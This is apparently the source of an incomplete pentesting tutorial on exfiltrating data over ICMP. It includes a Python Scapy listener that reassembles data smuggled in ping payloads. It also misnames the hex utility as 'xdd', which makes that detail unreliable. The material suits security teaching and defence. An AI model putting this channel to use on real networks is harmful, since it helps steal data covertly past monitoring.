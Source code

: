   date: '2025-05-04',
  title: 'ICMP Exfiltration',
  tags: ['Incomplete'],
  description:
    'Sophisticated way to steal privileged information through an ICMP trace',
  author: {
    name: '@Entr0phy4 (David Agámez)',
    role: 'Pentester',
  },
}


  title: article.title,
  description: article.description,
}

## Introduction {{ id: 'introduction' }}

For this technique we will use two fundamental tools in the day to day life of security analyst, **ping** and **xdd**.

- **ping**: Ping is used to determine whether the local host can successfully exchange, send and receive data packets with another host

- **xdd**: In _Linux_, xdd is a utility command that converts a file into it's hexdecimal representation and optionally display it along with an ASCII representation. It can also be used to conver a hexadecimal file back to its original binary format.

In addition to this, we will use the Python [Scapy](https://scapy.net/) library to create a little sniffer to intercept the packets.

```python
#!/usr/bin/python3

from scapy.all import *
import signal
import sys
import argparse

def handler(sig, frame):
  print("\n\t [!] Exiting.")
  sys.exit(1)


signal.signal(signal.SIGINT, handler)

def data_parser(packet):
  if ICMP in packet and packet[ICMP].type == 8 and hasattr(packet[ICMP], "load"):
      try:
          data = packet[ICMP].load[-4:].decode("utf-8")
          print(data, flush=True, end="")
      except Exception as e:
          print(f"\n[!] Error decoding data: {e}")

if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-i", "--iface", default="lo", help="Interface to sniff on")
  args = parser.parse_args()
  print("[*] Sniffing... Press Ctrl+C to stop.")
  sniff(iface=args.iface, filter="icmp", prn=data_parser)
```
